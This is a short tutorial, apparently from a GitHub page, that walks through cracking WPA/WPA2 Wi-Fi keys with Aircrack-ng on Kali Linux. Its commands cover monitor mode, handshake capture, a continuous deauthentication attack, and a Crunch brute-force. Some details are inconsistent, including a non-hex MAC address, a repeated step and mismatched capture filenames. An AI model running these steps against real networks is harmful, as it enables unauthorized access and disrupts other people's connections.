 ## Introduction

Wi-Fi security plays a vital role in safeguarding digital privacy, and it's important for network administrators and cybersecurity enthusiasts to grasp how vulnerabilities can be taken advantage of. This tutorial will guide you through the process of hacking WPA-WPA2-protected Wi-Fi networks for educational purposes, utilizing Aircrack-ng on Kali Linux.

## Tools Required
Network Adapter (e.g., TL-WN722N V2) with monitoring mode support
Kali Linux 
Aircrack-ng
Airodump-ng
Airmon-ng

## Monitoring Mode Setup
# Step 1: Kill Interrupting Services
- Before enabling monitoring mode, identify and kill services that might interrupt the process:
```
sudo airmon-ng check wlan0
sudo airmon-ng check kill
```

# Step 2: Enable Monitoring Mode
- Stop the WLAN interface and enable monitor mode:
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

- Verify the mode using:
```
iwconfig
```

# Step 3: Capture BSSID and Monitor Network
- Use airodump-ng to capture BSSID information:
```
airodump-ng wlan0
```

- Select a specific BSSID for monitoring and run:
- Run the command in the background.
```
airodump-ng -c 1 -w Scan_network --bssid EK:KV:2H:J4:A3:38 wlan0
```
# Step 4: Deauthentication Process
- Deauthenticate the target Wi-Fi to capture the 4-way handshake:
- Run the command until you see the 4-way handshake in the background code.
```
sudo aireplay-ng -0 0 -a EK:KV:2H:J4:A3:38 wlan0
```

- Select a specific BSSID for monitoring and run:
- Run the command in the background.
```
airodump-ng -c 1 -w Scan_network --bssid EK:KV:2H:J4:A3:38 wlan0
```

#Final Stage: Password Cracking with Crunch and Aircrack-ng
- Using Crunch for Password Generation
```
sudo crunch 8 8 123456780 | aircrack-ng -w - WifiScan.cap -e Soham
```
